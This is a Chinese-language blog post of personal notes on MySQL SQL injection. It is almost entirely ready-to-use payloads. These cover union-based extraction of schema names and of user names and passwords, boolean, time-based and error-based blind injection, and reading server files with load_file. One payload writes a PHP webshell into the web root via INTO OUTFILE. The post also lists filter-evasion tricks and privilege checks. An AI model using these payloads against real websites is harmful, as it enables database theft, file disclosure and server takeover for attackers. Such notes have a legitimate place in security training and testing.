 ```yaml
---
layout: post
title: "MySQL SQL注入笔记"
date: 2017-08-27
categories: Note
---
```


### 常规报错

- 猜字段数

  `order by n/*`

#### 数字型

- 获取当前数据库名：

  `http://a.com/test/1.php?id=1 and 1=2 union select GROUP_CONCAT(DISTINCT+database()),2 from information_schema.columns`
- 获取所有表名:

  `http://a.com/test/1.php?id=1 and 1=2 union select GROUP_CONCAT(DISTINCT+table_name),2 from information_schema.columns+where+table_schema=0x7374756479              //0x7374756479为数据库名的16进制`

- 获取表名中所有的字段:

  `http://a.com/test/1.php?id=1 and 1=2 union select GROUP_CONCAT(DISTINCT+column_name),2 from information_schema.columns+where+table_name=0x7573657273 and table_schema=0x7374756479     //0x7573657273为表名的16进制`

- 获取数据:

  `http://a.com/test/1.php?id=1 and 1=2 union select concat(字段1,0x2323,字段2),2 from 表名`

#### 字符型

  `http://a.com/test/1.php?id=admin%' and 1=2 union select 1,2,concat(name,0x2323,pass) from users%23`

### 盲注

- 使用 ascii （配上二分法食用更佳）
  - 获取数据库名

    `http://a.com/test/1.php?id=1 and ord(substr(database(),1,1))=115 //判断数据库名的第一个字符的ascii,如果ascii与后面的数字不一样,则报错…`

  - 获取表名

    `http://a.com/test/1.php?id=1 and ord(substr((select distinct table_name from information_schema.columns where table_schema=0x7374756479 limit 1,1),1,1))=97`

  - 获取字段

    `http://a.com/test/1.php?id=1 and ord(substr((select name from users limit 0,1),1,1))=117`

  - 获取数据

    `http://a.com/test/1.php?id=1 and ord(substr((select name from users limit 0,1),1,1))=117`

- 使用正则表达式

  `and 1=(SELECT 1 FROM information_schema.tables  WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)`

#### 基于时间的盲注

  `SELECT target_column FROM target_table WHERE id=1 UNION SELECT IF(ord(substr(database(),1,1))=115, sleep(5),1)`

#### 基于报错

  - `http://www.waitalone.cn/sql.php?id=1+and(select 1 from (select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))name from information_schema.tables group by name) as b)`

  - `updatexml(0x7e, concate(select user()),1) --+`

#### MySQL 读写文件

  - `create table a(cmd text);load data infile ’c:\xxx\xxx\xxx.txt’ into table a;select * from a;`
  - `create table a(cmd text);insert into a(cmd) values(load_file(’c:\ddd\ddd\ddd.txt’));select * from a`
  - `load_file(char(32,26,56,66))`
  - `load_file(0x633A5C626F6F742E696E69)`
  - `union select 1,2,3,char(这里写入你转换成10进制或16进制的一句话木马代码),5,6,7,8,9,10,7 into outfile ’d:web90team.php’/*
union select 1,2,3,load_file(’d:weblogo123.jpg’),5,6,7,8,9,10,7 into outfile ’d:web90team.php’/*`

#### 注入技巧

  - 过滤空格注入
    使用/**/或()或+代替空格

    %0c = form feed, new page

    %09 = horizontal tab

    %0d = carriage return

    %0a = line feed, new line

  - 相关函数
    system_user() 系统用户名

    user() 用户名

    current_user 当前用户名

    session_user()连接数据库的用户名

    database() 数据库名

    version() MYSQL数据库版本

    load_file() MYSQL读取本地文件的函数

    @@datadir 读取数据库路径

    @@basedir MYSQL 安装路径

    @@version_compile_os 操作系统 

  - 判断是否具有读写权限

    - `and (select count(*) from mysql.user)>0/*`
    - `and (select count(file_priv) from mysql.user)>0/*`